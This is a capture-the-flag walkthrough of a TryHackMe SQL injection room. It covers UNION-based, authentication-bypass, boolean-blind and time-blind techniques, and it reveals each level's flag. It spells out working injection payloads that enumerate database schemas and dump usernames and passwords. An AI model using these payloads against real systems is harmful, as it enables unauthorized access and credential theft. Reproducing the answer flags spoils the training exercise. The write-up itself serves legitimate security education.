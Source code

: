 ![Sql Injection Banner](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/03376575e888fd097280c51469c29fbc.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Cover.png" alt="SQL Injection Cover">
</p>

# [SQL Injection](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/sql_injection)

## Table of Contents

- [In-Band SQLi](#in-band-sqli)
- [Blind SQLi - Authentication Bypass](#blind-sqli---authentication-bypass)
- [Blind SQLi - Boolean Based](#blind-sqli---boolean-based)
- [Blind SQLi - Time Based](#blind-sqli---time-based)

## In-Band SQLi

1. What is the flag after completing level 1?

   In this task we will retrieve a users password by using the information returned to us when exploiting the SQL queries.
   
   To start we add an `'` after the `id=1` statement in the browser to see if it is vulnerable to SQLi. Since we get an error, there is probably no proper filtering put in place. We can use the `UNION argument to get extra information. We first need to find the number of columns. Using the following command, adding numbers until we get no error message.
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   ```
   
   No we can get more information on the database. To suppress the output of the article we can add `0'` in front of the query.
   
   ```cmd
   0' UNION SELECT 1,2,database();--
   ```
   
   This gives us the name of the database, which is `sqli_one`. Next we need to find the table names.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_one';--
   ```
   
   This uses `information_schema` to display information about the database and its entries. Here we find the tables `article` and `staff_users`. The latter one is of more interest to us if we want to find someones credentials. Now we move on the find the folumn names in the `staff_users` table.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users';--
   ```
   
   This gives us three columns: `id`, `username`, and `password`. Now we can enumerate the conents of this table while using some formatting to make it readable.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users;--
   
   ![SQLi In Band](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Inband_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_3840}</details>

## Blind SQLi - Authentication Bypass

1. What is the flag after completing level two? (and moving to level 3)

   In this task we are facing blind SQLi, where we don't get any feedback from our query. This is often the case when attempting to bypass login screesns. One of the most common/basic methods is to make sure the statement is always true. We can do this by escaping the query and writing a statement which is always true.
   
   ```cmd
   ' OR 1=1;--
   ```
   
   ![SQLi Authentication Bypass](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Authentication_Bypass_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_9581}</details>

## Blind SQLi - Boolean Based

1. What is the flag after completing level three?

   On level 3 we only get a true or false response to help us find the answer.
   
   We first need to find the number of columns using:
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   ```
   
   Add as many columns as needed for the response to become true.
      
   To enumerate the database names, we can use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   sqli_three
   ```
   
   To enumerate the table names within the database we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema="sqli_three" AND table_name LIKE '%';--
   ``
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   users
   ```
   
   To enumerate the columns within this table we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema="sqli_three" AND table_name="users" AND column_name LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. Then add it as 'column_name!=...' to make sure we don't get a hit on it again. This time we get:
   
   ```cmd
   'id', 'username', and 'password'
   ```
   
   Next we need to find any existing username. For this we use the same method as before:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username like '%';--
   ```
   
   After finding username `admin` we use the same method to find the corresponding password:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '%';--
   ```
   
   Going through all characters we find `3845`.

   ![SQLi Boolean](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Boolean_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_1093}</details>

## Blind SQLi - Time Based

1. What is the final flag after completing level four?

   In this step, we get no feedback at all. The only way to get som information is to use the response time from the server. For this we add the `sleep()` command in the query to add a delay. This is executed if the query is true.
   
   The method is the same as the previous question. But we only get a different response time instead of a true or false statement. We start by enumerating the databases, then the tables and column names. Lastly, we enumerate for the username and password. In the end we get the following query.
   
   ```cmd
   admin123' UNION SELECT sleep(2),2 FROM users WHERE username='admin' AND password='4961';--
   ```
   
   ![SQLi Time Based](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Time_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_MASTER}</details>
